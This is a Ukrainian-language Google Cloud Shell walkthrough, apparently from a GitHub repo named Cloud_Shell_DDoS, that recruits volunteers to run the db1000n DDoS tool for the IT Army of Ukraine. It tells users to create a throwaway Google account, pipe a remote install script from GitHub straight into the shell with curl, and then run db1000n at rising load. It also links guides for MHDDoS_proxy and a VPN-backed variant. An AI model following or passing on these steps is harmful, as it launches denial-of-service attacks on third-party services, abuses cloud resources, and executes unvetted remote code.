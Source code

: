 
#   Все буде Україна! 💙💛

## Привіт друзі
Бажаю вам чудового настною та гарного дня!
### Не використовуйте персональний аккаунт.
  
- Інструкція 👉  [як створити новий обліковий запис Google](https://support.google.com/accounts/answer/27441?hl=uk)
- Для початківців пропоную хоча б частково ознайомитись з  інструкцією 👉  [Як запустити «Death by 1000 needles» (db1000n) в Google Cloud Shell](https://telegra.ph/YAk-zapustiti-dvanadcyat-ekzemplyar%D1%96v-Death-by-1000-needles-db1000n-v-Google-Cloud-Shell-ne-vikoristovuyuchi-VPN-05-04)

### ☁️  ***Cloud Shell*** зараз працє в ***ефемерному режимі***. Це означає, що все створене під час цього сеансу видалиться разом з віртуальною машиною ***після закінчення даного сеансу***.

###  *Зверніть увагу*

Якщо з'єднання перервано не підключайтесь повторно бо вийдете з ***ефемерного режиму***, а **завантажтесь знову**, натиснувши кнопку розташовану нижче

[![Open in Cloud Shell](https://telegra.ph/file/22b02a59993bd344b2bc9.png)](https://console.cloud.google.com/cloudshell/editor?cloudshell=true&shellonly=true&git_repo=https://github.com/patatakartata/Cloud_Shell_DDoS&tutorial=tutorial.md)

Щоб розпочати добру справу 🙂 натисніть кнопку **START**

 ## Давайте почнемо
-  Для запуска «Death by 1000 needles» db1000n скопіюйте команду розташовану нижче та натисніть клавішу [ENTER] 👇
```bash
cd ~/ && source <(curl https://raw.githubusercontent.com/patatakartata/Cloud_Shell_DDoS/main/install.sh)
```

-   Якщо все працює без ***роз'єднань***, можна підвищити потужність. Для цього зупиніть процес натиснувши **Ctrl+C** та запустіть команду зі збілшеним навантаженням розташовану нижче 👇
```bash
./db1000n --scale 0.7
```
-   або ще з більшим навантаженням 👇
```bash
./db1000n
```
### Для перегляду процесів використаємо команду **htop**
-   Для цього додайте ще один термінал натиснувши "**+**" праворуч від заголовка працюючого терміналу, та запустіть наступну команду 👇
```bash
htop -F ./db
```

## **Пропоную для ознайомлення:**

* Натисніть на кнопку щоб завантажити новий сеанс Google Cloud Shell з інструкцією по запуску **MHDDoS_proxy**.

[![Open in Cloud Shell](https://telegra.ph/file/22b02a59993bd344b2bc9.png)](https://console.cloud.google.com/cloudshell/editor?cloudshell=true&shellonly=true&git_repo=https://github.com/patatakartata/Cloud_Shell_DDoS&tutorial=mhddos_proxy_tutorial.md)
* Інструкція для початківців   
 👉 [Як запустити «Death by 1000 needles» (db1000n) в Google Cloud Shell](https://telegra.ph/YAk-zapustiti-dvanadcyat-ekzemplyar%D1%96v-Death-by-1000-needles-db1000n-v-Google-Cloud-Shell-ne-vikoristovuyuchi-VPN-05-04)
* Інструкція для більш досвідчених   
 👉 [Як запустити потужний Db1000nX100 з використанням VPN в Google Cloud Shell](https://telegra.ph/Zapusk-Db1000nX100-u-Google-Cloud-Shell-05-20)
* Офіційна сторінка   [⚡ It Army of Ukraine ⚡](https://itarmy.com.ua/)  має багато корисної інформації   

##  **Все буде Україна! 💙💛**

<walkthrough-conclusion-trophy>
</walkthrough-conclusion-trophy>
<walkthrough-footnote>Натиснувши кнопку FINISH довідка закриєця і ви перейдете до головного меню довідника Google Cloud Shell.   
Кнопка PREVIOUS поверне вас на попередню сторінку.</walkthrough-footnote>
